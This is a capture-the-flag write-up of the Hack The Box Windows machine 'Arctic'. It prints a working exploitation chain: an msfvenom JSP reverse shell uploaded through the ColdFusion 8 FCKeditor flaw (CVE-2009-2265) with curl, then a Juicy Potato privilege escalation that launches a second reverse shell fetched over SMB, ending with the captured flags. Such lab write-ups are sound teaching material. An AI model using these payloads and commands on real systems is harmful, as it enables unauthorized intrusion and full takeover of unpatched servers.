





+++
title = "Arctic"
date = "2023-12-07"
description = "This is an easy Windows box."
[extra]
cover = "cover.png"
toc = true
+++

# Information

**Difficulty**: Easy

**OS**: Windows

**Release date**: 2017-03-22

**Created by**: [ch4p](https://app.hackthebox.com/users/1)

# Setup

I'll attack this box from a Kali Linux VM as the `root` user — not a great practice security-wise, but it's a VM so it's alright. This way I won't have to prefix some commands with `sudo`, which gets cumbersome in the long run. Heck, it's hard enough to remember the flags for the commands without needing to know the privileges required to run them too!

I like to maintain consistency in my workflow for every box, so before starting with the actual pentest, I'll prepare a few things:

1. I'll create a directory that will contain every file related to this box. I'll call it `workspace`, and it will be located at the root of my filesystem `/`.

1. I'll create a `server` directory in `/workspace`. Then, I'll run `httpsimpleserver` to create an HTTP server and `impacket-smbserver` to create an SMB share named `server`. This will make files in this folder available over the Internet, which will be especially useful for transferring files to the target machine if need be!

1. I'll place all my tools and binaries into the `/workspace/server` directory. This will come in handy once we get a foothold, for privilege escalation and for pivoting inside the internal network.

I'll also strive to minimize the use of Metasploit, because it hides the complexity of some exploits, and prefer a more manual approach when it's not too much hassle to really understand what's happening on the machine.

Throughout this write-up, my machine's IP address will be `10.10.14.5`, while the target machine's IP address will be `10.10.10.11`. The commands ran on my machine will be prefixed with `❯` for clarity, and if I ever need to transfer files or binaries to the target machine I'll always place them in the `/tmp` or `C:\tmp` folder to clean up more easily later on.

Now we should be ready to go!

# Remote enumeration

## Host discovery

Well, we already know the IP we are targeting, so this phase is actually empty!

## TCP port scanning

As usual, I'll initiate a port scan on Arctic using a TCP SYN `nmap` scan to assess its attack surface.

```sh
❯ nmap -sS 10.10.10.11 -p-
```

```
<SNIP>
PORT      STATE SERVICE
135/tcp   open  msrpc
8500/tcp  open  fmtp
49154/tcp open  unknown
<SNIP>
```

## Service fingerprinting

Following the port scan, let's gather more data about the services associated with the open ports we found.

```sh
❯ nmap -sS 10.10.10.11 -p 135,8500,49154 -sV
```

```
<SNIP>
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
<SNIP>
```

Alright, so `nmap` managed to determine that Arctic is running Windows. That's good to know!

Aside from that, `nmap` found three open ports.

The first is `135/tcp` and corresponds to MSRPC. We can use it to run a bunch of queries through the machine exposed RPCs, but it's seldom a good entry point: it's often used to enumerate the AD domain the machine is linked to. Maybe we'll come back to it if we find out that Arctic is actually linked to a domain.

The second is the port `8500/tcp`, which may or may not be used by the `fmtp` service. I never encountered this port nor this service, so I'll run a Google search and see what I get.

I couldn't identify what the `fmtp` service was referring to. The results sometimes associate it with 'Flight Message Transfer Protocol', sometimes with 'File Multicast Transport Protocol', and even once with 'Family and Community Medicine Training Program'!

But if I search for the standard services using the port `8500/tcp`, I find something interesting:

> Port 8500 is commonly used for web-based applications and services, such as Adobe ColdFusion Server, a development platform that enables developers to create and deliver web-based applications. It can also be used for other web servers, such as Apache Tomcat.
>
> — [TCP UDP Ports](https://tcp-udp-ports.com/port-8500.htm)

This website also mentions that this port is officially associated with 'Flight Message Transfer Protocol', but unofficially it can conflict with other apps. So that's what `fmtp` actually corresponds to!

The third and last open port is `49154/tcp`, and it's apparently also used by MSRPC, so I'm just going to ignore it.

## Scripts

Let's run `nmap`'s default scripts on these services to see if they can find additional information.

```sh
❯ nmap -sS 10.10.10.11 -p 135,8500,49154 -sC
```

```
<SNIP>
PORT      STATE SERVICE
135/tcp   open  msrpc
8500/tcp  open  fmtp
49154/tcp open  unknown
<SNIP>
```

Unfortunately, `nmap`'s scans failed to uncover more information.

Let's explore the mysterious application on port `8500/tcp`!

## Adobe ColdFusion (port `8500/tcp`)

### Banner grabbing

Let's interact with the service using this port with `nc`. Maybe we'll get a banner to identify it?

```sh
❯ nc 10.10.10.11 8500
```

We don't... let's try to enter something.

```sh
hello?
```

The connection closed!

### Browser

The banner grabbing was unsuccessful, so let's assume that this is a web server. Let's browse to `http://10.10.10.11:8500/`:



It hanged for an eternity, but in the end it returned a web page! It looks like a folder that we can navigate...

### HTTP headers

Before investigating the content of this folder, let's check out the HTTP response headers when we request the homepage.

```sh
❯ curl http://10.10.10.11:8500/ -I
```

```
HTTP/1.0 200 OK
Date: Tue, 05 Dec 2023 23:32:50 GMT
Content-Type: text/html; charset=utf-8
Connection: close
Server: JRun Web Server
```

The only interesting header here is `Server`, which is set to `JRun Web Server`.

After a big of googling, here's what I found:

> JRun is a J2EE application server, originally developed in 1997 as a Java Servlet engine by Live Software and subsequently purchased by Allaire, who brought out the first J2EE compliant version. It was acquired by Macromedia prior to its 2001 takeover of Allaire, and subsequently by Adobe Systems when it bought Macromedia in 2005. Its latest patch Updater 7 was released by Adobe in 2007.
>
> — [Wikipedia](https://en.wikipedia.org/wiki/Adobe_JRun)

So apparently JRun is a web application server originally developed as a Java servlet, later acquired by Adobe and discontinued in 2007.

That's surprising to find it on this box! It must be vulnerable to many sorts of exploits.

Anyways, now that we we know we are dealing with a server, let's proceed to its enumeration.

### Technology lookup

Before explroing this website, let's look up the technologies it uses with the [Wappalyzer](https://www.wappalyzer.com/) extension.



Nothing!

### Exploration

If we explore the tree of files we have at our disposal, we see that the `CFIDE` folder probably holds to the source code of something. We find some `.cfm` files, which correspond to Adobe ColdFusion files. So this web server must be using Adobe ColdFusion after all!

In the `cfdocs` folder, we can find a `dochome.htm` file that seems to be a documentation for Adobe ColdFusion. Therefore, this folder probably holds the documentation, and we're not really interested into this at the moment.

In the `CFIDE`, we find an `administrator` folder. And if we click on it, we land on this web page:



We can't change the username though.

#### Common passwords

I tried common passwords, but unfortunately it didn't work.

### Known CVEs

I mentioned earlier that JRun was an old and discontinued application. The web server is not running JRun though, but ColdFusion. We still find a `Server` header mentioning that it's `JRun`, so it must be a version dating back to the buyout of the product, and it must be a version published between 2005 and 2007! Hence, it's probably vulnerable to something.

Let's search [ExploitDB](https://www.exploit-db.com/) for `ColdFusion`. There's a bunch of results, but we're only really interested in RCE, so we can rule out most of the results. The [Adobe ColdFusion 8 - Remote Command Execution (RCE)](https://www.exploit-db.com/exploits/50057) ([CVE-2009-2265](https://nvd.nist.gov/vuln/detail/CVE-2009-2265)) result looks promising! That's around the time we estimate the ColdFusion version to have been published.

# Foothold ([CVE-2009-2265](https://nvd.nist.gov/vuln/detail/CVE-2009-2265))

[CVE-2009-2265](https://nvd.nist.gov/vuln/detail/CVE-2009-2265) is a vulnerability in ColdFusion 8.0.1 that allows unauthenticated users to upload files and gain remote code execution on the target host. The vulnerability is caused by a directory traversal flaw in the file browser and the `editor/filemanager/connectors/` directory, which allows anyone to create executable files in arbitrary directories, which can then be executed to get code execution.

The page we found gives us a ready-made Python script to obtain a reverse shell, but I prefer a more manual approach.

## Preparation

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp 9001
```

```
listening on [any] 9001 ...
```

Then I'll use `msfvenom` to create the reverse shell payload. I'll mimick the script and place it into a `.txt` file.

```sh
❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=9001 -f raw -o /workspace/revshell.txt
```

## Exploitation

Now let's exploit this CVE to obtain a reverse shell.

The first thing to do is to upload our file on the web server. I'll send the `curl` equivalent of the script request.

```sh
❯ curl -X POST -F newfile=@/workspace/revshell.txt 'http://10.10.10.11:8500/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/revshell.jsp%00' -s
```

Let's check if the file was successfully uploaded to `/userfiles/file/`.



Great! Now let's trigger our payload.

```sh
❯ curl http://10.10.10.11:8500/userfiles/file/revshell.jsp -s
```

If we check our listener:

```
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.11] 49185
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>
```

It successfully caught the reverse shell. Nice!

# Local enumeration

If we run `whoami`, we see that we got a foothold as `tolis`.

## Version

Let's gather some information about the Windows version of Arctic.

```cmd
C:\ColdFusion8\runtime\bin> reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion" /v ProductName
```

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion
    ProductName    REG_SZ    Windows Server 2008 R2 Standard
```

Okay, so this is Windows Server 2008!

```cmd
C:\ColdFusion8\runtime\bin> reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion" /v CurrentBuildNumber
```

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion
    CurrentBuildNumber    REG_SZ    7600
```

And this is build `7600`.

This version of Windows is a bit old, and maybe there are missing hotfixes. We'll check that later, if we can't find another way to get `NT AUTHORITY\SYSTEM`.

## Architecture

What is Arctic's architecture?

```cmd
C:\ColdFusion8\runtime\bin> reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v PROCESSOR_ARCHITECTURE
```

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment
    PROCESSOR_ARCHITECTURE    REG_SZ    AMD64
```

So this system is using x64. This will be useful to know if we want to compile our own exploits.

## Windows Defender

Let's check if Windows Defender is enabled.

```cmd
C:\ColdFusion8\runtime\bin> reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Defender" /v ProductStatus
```

There's no output, which probably means that we got an error. Let's assume it's disabled then!

## AMSI

Let's check if there's any AMSI provider.

```cmd
C:\ColdFusion8\runtime\bin> reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\AMSI\Providers"
```

As for Windows Defender, there's no output.

## Firewall

Let's see which Windows Firewall policies profiles are enabled.

```cmd
C:\ColdFusion8\runtime\bin> reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy" /s /v EnableFirewall
```

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\DomainProfile
    EnableFirewall    REG_DWORD    0x1

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\PublicProfile
    EnableFirewall    REG_DWORD    0x1

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\StandardProfile
    EnableFirewall    REG_DWORD    0x1

End of search: 3 match(es) found.
```

Okay, so all Firewall profiles are enabled. It shouldn't hinder our progression too much though: since we alreay managed to obtain a reverse shell, the protections should be really basic.

## NICs

Let's gather the list of connected NICs.

```cmd
C:\ColdFusion8\runtime\bin> ipconfig /all
```

```
Windows IP Configuration

   Host Name . . . . . . . . . . . . : arctic
   Primary Dns Suffix  . . . . . . . : 
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No

Ethernet adapter Local Area Connection:

   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Intel(R) PRO/1000 MT Network Connection
   Physical Address. . . . . . . . . : 00-50-56-B9-50-6E
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   IPv4 Address. . . . . . . . . . . : 10.10.10.11(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.10.10.2
   DNS Servers . . . . . . . . . . . : 10.10.10.2
   NetBIOS over Tcpip. . . . . . . . : Enabled

Tunnel adapter isatap.{79F1B374-AC3C-416C-8812-BF482D048A22}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Microsoft ISATAP Adapter
   Physical Address. . . . . . . . . : 00-00-00-00-00-00-00-E0
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes

Tunnel adapter Local Area Connection* 9:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Teredo Tunneling Pseudo-Interface
   Physical Address. . . . . . . . . : 00-00-00-00-00-00-00-E0
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
```

Looks like there's a single network.

## Local users

Let's enumerate all local users using `PowerView`.

```cmd
C:\ColdFusion8\runtime\bin> powershell -command "Set-ExecutionPolicy -Scope Process -ExecutionPolicy Unrestricted; Import-Module C:\tmp\PowerView.ps1; Get-NetLocalGroupMember -GroupName Users | Where-Object { $_.MemberName -notmatch 'NT AUTHORITY' } | Select-Object GroupName, MemberName, SID | Format-Table"
```

```
GroupName MemberName   SID                      
--------- ----------   ---                      
Users     ARCTIC\tolis S-1-5-21-2913191377-1678605233-910955532-1000
```

It looks like there's only us, `tolis`.

## Local groups

Let's enumerate all local groups, once again using `PowerView`.

```cmd
C:\ColdFusion8\runtime\bin> powershell -command "Set-ExecutionPolicy -Scope Process -ExecutionPolicy Unrestricted; Import-Module C:\tmp\PowerView.ps1; Get-NetLocalGroup | Select-Object GroupName, Comment | Format-Table | Out-String -Width 4096"
```

```
GroupName                      Comment                                
---------                      -------                                
Administrators                 Administrators have complete and unrestricted access to the computer/domain
Backup Operators               Backup Operators can override security restrictions for the sole purpose of backing up or restoring files
Certificate Service DCOM Access Members of this group are allowed to connect to Certification Authorities in the enterprise
Cryptographic Operators        Members are authorized to perform cryptographic operations.
Distributed COM Users          Members are allowed to launch, activate and use Distributed COM objects on this machine.
Event Log Readers              Members of this group can read event logs from local machine
Guests                         Guests have the same access as members of the Users group by default, except for the Guest account which is further restricted
IIS_IUSRS                      Built-in group used by Internet Information Services.
Network Configuration Operators Members in this group can have some administrative privileges to manage configuration of networking features
Performance Log Users          Members of this group may schedule logging of performance counters, enable trace providers, and collect event traces both locally and via remote access to this computer
Performance Monitor Users      Members of this group can access performance counter data locally and remotely
Power Users                    Power Users are included for backwards compatibility and possess limited administrative powers
Print Operators                Members can administer domain printers 
Remote Desktop Users           Members in this group are granted the right to logon remotely
Replicator                     Supports file replication in a domain  
Users                          Users are prevented from making accidental or intentional system-wide changes and can run most applications
```

Looks classic.

## User account information

Let's gather more information about us.

```cmd
C:\ColdFusion8\runtime\bin> net user tolis
```

```
User name                    tolis
Full Name                    tolis
Comment                      
User's comment               
Country code                 000 (System Default)
Account active               Yes
Account expires              Never

Password last set            22/3/2017 8:07:58
Password expires             Never
Password changeable          22/3/2017 8:07:58
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   25/12/2023 7:32:01

Logon hours allowed          All

Local Group Memberships      *Users                
Global Group memberships     *None                 
<SNIP>
```

We don't belong to interesting groups.

## Home folder

If we check our home folder, we find the user flag on our Desktop. Let's retrieve its content.

```cmd
C:\ColdFusion8\runtime\bin> type C:\Users\tolis\Desktop\user.txt
```

```
c897ac7e47c2b03be5f8f7ef96947805
```

There's nothing unusual though.

## Command history

If we look for a command history file, we find none.

## Tokens

Let's now focus on our tokens.

Which security groups are associated with our access tokens?

```cmd
C:\ColdFusion8\runtime\bin> whoami /groups
```

```
GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288 Mandatory group, Enabled by default, Enabled group
```

Unfortunately, there's nothing that we can abuse.

What about the privileges associated with our access tokens?

```cmd
C:\ColdFusion8\runtime\bin> whoami /priv
```

```
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

We possess the `SeImpersonate` privilege! This is particularly interesting because it could allow us to leverage [Juicy Potato](https://github.com/ohpe/juicy-potato) to achieve code execution `NT AUTHORITY\SYSTEM`. This exploit works on Windows versions predating Windows 10 1809 and Windows Server 2019, so Arctic should be vulnerable to it.

# Privilege escalation ([Juicy Potato](https://github.com/ohpe/juicy-potato))

The [Juicy Potato](https://github.com/ohpe/juicy-potato) exploit is a Windows privilege escalation technique that takes advantage of the way Windows handles token impersonation for certain COM (Component Object Model) objects when a user has the `SeImpersonate` or `SeAssignPrimaryToken` privileges. It involves creating a malicious DCOM (Distributed Component Object Model) object with a CLSID and AppID that match, and then activating it through a vulnerable process. When the COM object is activated, the exploit tricks Windows into thinking that the process is legitimate and should be granted higher privileges.

## Preparation

Let's download a binary of `JuicyPotato`, which we can find [here](https://github.com/ohpe/juicy-potato/releases). I'll save it as `juicy_potato.exe`.

Once this is done, the next step is to transfer the binary to Arctic.

```cmd
C:\ColdFusion8\runtime\bin> copy \\10.10.14.5\server\juicy_potato.exe C:\tmp\juicy_potato.exe
```

Alright, so the exploit is on Arctic.

We still need to decide which command we want to execute with this exploit. My goal is to obtain another reverse shell, so I'll setup a listener on port `9002` and I'll use `msfvenom` to create an executable:

```sh
❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.5 LPORT=9002 -f exe > /workspace/server/revshell.exe
```

Let's transfer it to Arctic using the same method as for `juicy_potato.exe`.

Now we should be ready to go!

## Exploitation

Time to use this binary to execute our `revshell.exe` executable as `NT AUTHORITY\SYSTEM`!

```cmd
C:\ColdFusion8\runtime\bin> C:\tmp\juicy_potato.exe -l 1337 -p C:\tmp\revshell.exe -t *
```

And on our listener...

```
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.11] 49344
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
```

It caught the reverse shell! If we run `whoami`, we can confirm that we are indeed `NT AUTHORITY\SYSTEM`.

# Local enumeration

## Home folder

The only thing we need to do to finish this box is to retrieve the root flag.

And as usual, we can find it on our Desktop!

```cmd
C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
```

```
bfa99bc560b0acffc6a78f1a3e6b55f0
```

# Afterwords



That's it for this box! I found the foothold easy to obtain, as it only involved finding working CVEs. The privilege escalation was also kinda easy, since this is a common vector. The fact that the shells had no `STDERR` was troubling though.

Thanks for reading!
